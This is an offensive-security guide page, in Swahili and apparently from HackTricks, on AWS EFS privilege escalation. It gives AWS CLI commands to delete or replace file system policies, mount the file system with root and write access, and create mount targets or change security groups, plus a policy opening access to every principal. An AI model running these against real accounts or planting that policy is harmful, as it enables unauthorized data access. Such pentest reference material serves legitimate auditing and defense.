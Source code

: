 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Zaidi ya **info kuhusu EFS** katika:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Kumbuka kwamba ili kuunganisha EFS unahitaji kuwa katika subnetwork ambapo EFS imewekwa wazi na kuwa na ufikiaji kwake (vikundi vya usalama). Ikiwa hii inatokea, kwa kawaida, utaweza kuunganisha kila wakati, hata hivyo, ikiwa inakulindwa na sera za IAM unahitaji kuwa na ruhusa za ziada zilizotajwa hapa ili kuweza kuifikia.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa ruhusa zozote kati ya hizo mshambuliaji anaweza **kubadilisha sera ya mfumo wa faili** ili **kukupa ufikiaji** kwake, au tu **kuifuta** ili **ufikiaji wa kawaida** upatikane.

Ili kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Ili kubadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa ruhusa hii mshambuliaji ataweza **kuunganisha EFS**. Ikiwa ruhusa ya kuandika haitolewi kwa default kwa kila mtu anayeweza kuunganisha EFS, atakuwa na **ufikiaji wa kusoma tu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ruhusa za ziada `elasticfilesystem:ClientRootAccess` na `elasticfilesystem:ClientWrite` zinaweza kutumika ku **andika** ndani ya mfumo wa faili baada ya kuunganishwa na ku **fikia** mfumo huo wa faili **kama mzizi**.

**Athari Zinazoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:CreateMountTarget`

Ikiwa wewe ni mshambuliaji aliye ndani ya **subnetwork** ambapo **hakuna lengo la kuunganishwa** la EFS lililopo. Anaweza tu **kuunda moja katika subnet yake** kwa ruhusa hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika hali ambapo mshambuliaji anapata kwamba EFS ina lengo la kuunganishwa katika mtandao wake wa ndani lakini **hakuna kundi la usalama linaloruhusu trafiki**, anaweza tu **kubadilisha hilo kwa kubadilisha makundi ya usalama yaliyochaguliwa:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili. 

{{#include ../../../banners/hacktricks-training.md}}
